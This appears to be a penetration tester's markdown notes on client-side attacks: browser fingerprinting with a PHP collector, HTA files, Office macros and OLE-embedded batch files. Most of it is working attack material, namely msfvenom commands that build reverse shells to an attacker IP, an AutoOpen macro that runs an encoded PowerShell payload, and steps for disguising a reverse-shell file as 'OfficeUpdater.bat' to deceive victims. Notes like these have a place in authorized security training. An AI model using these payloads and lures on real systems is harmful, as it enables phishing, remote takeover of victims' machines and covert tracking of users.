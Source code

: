 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
### sample: prints out the user-agent and platform components
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note:
*In this example,* the POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address.

A comment is added for when targeting a remote server
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---

# HTML Applications (HTA)

### sample hta
```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	<head>
	<body>
		<script>
			//closes the additional windows behind our command prompt
			self.close();
		</script>
	</body>
</html>
```

- sandbox protection of Internet Explorer, also called Protected Mode is enabled by default
- The victim can select Allow to permit the action,
	which will execute the **JavaScript code** and launch cmd.exe

### Generating HTA with `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh -o evil.hta
```

### CVE-2017-0199

### [Demiguise Tool](https://github.com/nccgroup/demiguise)

---

# Office Macros
### macro layout
```vbscript
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Str As String

    <PAYLOAD>

    CreateObject("Wscript.Shell").Run Str
End Sub
```

### Payload is the same as the HTA attack
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh
```
In VBA, for strings, there is a character limit of 255 characters.

However, this restriction does not apply to strings stored in variables, so we can split the command into multiple lines and concatenate them.

it should be like below: 

```vbscript
Str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAF"
Str = Str + "AAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkA"
```

the powershell script in the **MurderShell project** can take care of the splitting.

### Note: taken from [unicorn](https://github.com/trustedsec/unicorn) readme
```
If you are deploying this against Office365/2016+ versions of Word you need to modify the first line of the output from: Sub Auto_Open()

To: Sub AutoOpen()

The name of the macro itself must also be "AutoOpen" instead of the legacy "Auto_Open" naming scheme.
```

---

# Object Linking and Embedding (Awesome)

## Step #1: create a malicous bat file and give it a benign name like `OfficeUpdater.bat`
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f psh-cmd -o OfficeUpdater.bat
```
## Step #2: create an office word document. click `insert` --> `object`
![CSA-OLE-1](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-1.jpg)

## Step #3: After selecting the `create from file` tab, browse to the location of the `.bat` file we generated. Also use a benign `icon` and `caption` to lower suspicion.
![CSA-OLE-2](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-2.jpg)

![CSA-OLE-3](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-3.jpg)

## Step #4: When the user clicks on the object, a pop-up will be there asking if the user wants to run it.
![CSA-OLE-4](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-4.jpg)

## You will get back a shell if `'Run'` is clicked
![CSA-OLE-5](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-5.jpg)

## Note: the `.bat` file and the icon will remain within the document and will be portable with it.
